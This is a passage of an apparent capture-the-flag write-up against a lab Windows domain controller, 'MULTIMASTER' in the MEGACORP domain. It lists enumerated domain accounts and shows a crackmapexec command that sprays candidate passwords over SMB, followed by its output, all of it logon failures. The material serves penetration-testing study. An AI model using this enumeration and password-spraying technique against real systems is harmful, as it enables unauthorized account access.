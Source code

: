 ```
[+] Found account [02102]  MEGACORP\svc-sql                              
[+] Found account [03101]  MEGACORP\SQLServer2005SQLBrowserUser$MULTIMASTER                              
[+] Found account [03102]  MEGACORP\sbauer                              
[+] Found account [03103]  MEGACORP\okent                              
[+] Found account [03104]  MEGACORP\ckane                              
[+] Found account [03105]  MEGACORP\kpage                              
[+] Found account [03106]  MEGACORP\james                              
[+] Found account [03107]  MEGACORP\cyork                              
[+] Found account [03108]  MEGACORP\rmartin                              
[+] Found account [03109]  MEGACORP\zac                                
[+] Found account [03110]  MEGACORP\jorden                              
[+] Found account [03111]  MEGACORP\alyx                               
[+] Found account [03112]  MEGACORP\ilee                               
[+] Found account [03113]  MEGACORP\nbourne                              
[+] Found account [03114]  MEGACORP\zpowers                              
[+] Found account [03115]  MEGACORP\aldom                              
[+] Found account [03116]  MEGACORP\jsmmons                              
[+] Found account [03117]  MEGACORP\pmartin                              
[+] Found account [03119]  MEGACORP\Developers

```

### Test Passwords with Domain Users

I added all these users to a file and went back to `crackmapexec` to check if the passwords I already have work with any of these users:

```

root@kali# crackmapexec smb 10.10.10.179 -u dom_users -p passwords --continue-on-success
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\MULTIMASTER$:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\MULTIMASTER$:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\MULTIMASTER$:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\DnsAdmins:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\DnsAdmins:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\DnsAdmins:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\DnsUpdateProxy:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\DnsUpdateProxy:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\DnsUpdateProxy:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\svc-nas:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\svc-nas:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\svc-nas:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\Privileged IT Accounts:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\Privileged IT Accounts:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\Privileged IT Accounts:banking1 STATUS_LOGON_FAILURE 
```